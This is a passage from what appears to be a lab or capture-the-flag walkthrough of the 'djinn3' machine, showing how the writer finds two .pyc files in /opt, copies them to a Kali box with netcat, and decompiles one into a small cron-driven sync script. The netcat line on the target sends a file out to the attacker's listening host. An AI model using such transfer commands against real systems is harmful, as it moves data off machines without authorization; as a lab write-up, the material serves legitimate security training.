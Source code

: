 We can see in opt there are two .pyc files we have access to these are likely related to the script that is being ran in pspy.

Next we will grab these files and transfer them over to our kali box.

File Transfer

Kali
nc -lvvp 777 > conf.pyc

Target
nc 192.168.49.106 777 < .configuration.cpython-38.pyc


UnCompyling

```
┌──(hhhharshil㉿kali)-[~/Desktop/djinn3]
└─$ uncompyle6 sync.pyc > sync.py             
                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                            
┌──(hhhharshil㉿kali)-[~/Desktop/djinn3]
└─$ cat sync.py                                                                                                                                                                                                                       127 ⨯
# uncompyle6 version 3.8.0
# Python bytecode 3.8.0 (3413)
# Decompiled from: Python 2.7.18 (default, Apr 28 2021, 17:39:59) 
# [GCC 10.2.1 20210110]
# Warning: this version of Python has problems handling the Python 3 byte type in constants properly.

# Embedded file name: syncer.py
# Compiled at: 2020-06-01 07:32:59
# Size of source mod 2**32: 587 bytes
from configuration import *
from connectors.ftpconn import *
from connectors.sshconn import *
from connectors.utils import *

def main():
    """Main function
    Cron job is going to make my work easy peasy
    """
    configPath = ConfigReader.set_config_path()
    config = ConfigReader.read_config(configPath)
    connections = checker(config)
    if 'FTP' in connections:
        ftpcon(config['FTP'])
    else:
        if 'SSH' in connections:
            sshcon(config['SSH'])
        else:
            if 'URL' in connections:
                sync(config['URL'], config['Output'])


if __name__ == '__main__':
    main()
# okay decompiling sync.pyc
```
